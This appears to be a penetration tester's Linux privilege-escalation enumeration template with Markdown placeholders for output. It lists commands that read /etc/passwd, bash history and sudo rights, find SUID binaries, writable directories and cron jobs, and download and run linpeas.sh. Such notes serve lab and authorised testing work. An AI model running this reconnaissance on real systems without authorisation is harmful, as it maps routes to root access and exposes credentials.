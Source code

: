 Just use this: 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

# Operating system, version and architecture
```bash
cat /etc/issue
```
```bash
cat /etc/os-release
```
```bash
uname -r
```
List loaded kernel drivers:
```bash
lsmod
```
Display kernel driver info:
```bash
/sbin/modinfo $(KERNEL_NAME)
```
# Current User Groups
```bash
id
```
# Services
```bash
ps aux
```
```
<insert services here>
```
# Users
```bash
cat /home
```
```
<insert home directories here>
```
```bash
cat /etc/passwd
```
```
<insert /etc/passwd here>
```
# History
```bash
cat ~/.bash_history
```
```
<insert bash history here>
```
# List Sudo Permissions
```bash
sudo -l
```
```
<insert sudo permissions here>
```
# Network Information
```bash
ip a
```
```bash
route
```
Or
```bash
routel
```
...depending on distro.
```bash
ss -anp
```
## Firewall Rules
```bash
ls /etc/iptables
```
```bash
ls /etc | grep "ip"
```
# SUIDs
```bash
find / -perm -u=s -type f 2>/dev/null
```
# Cronjobs
```bash
crontab -l
```
```bash
sudo crontab -l
```
```bash
cat /etc/crontab
```
```bash
ls -lah /etc/cron*
```
# Enumerate installed packages
Debian:
```bash
dpkg -l
```
# Every writeable directory by current user
```bash
find / -writable -type d 2>/dev/null
```
# List mounted filesystems
List drives that will be mounted on boot:
```bash
cat /etc/fstab
```
List all mounted filesystems:
```bash
mount
```
List all available disks:
```bash
lsblk
```
# Linpeas
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/2021.02.20/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
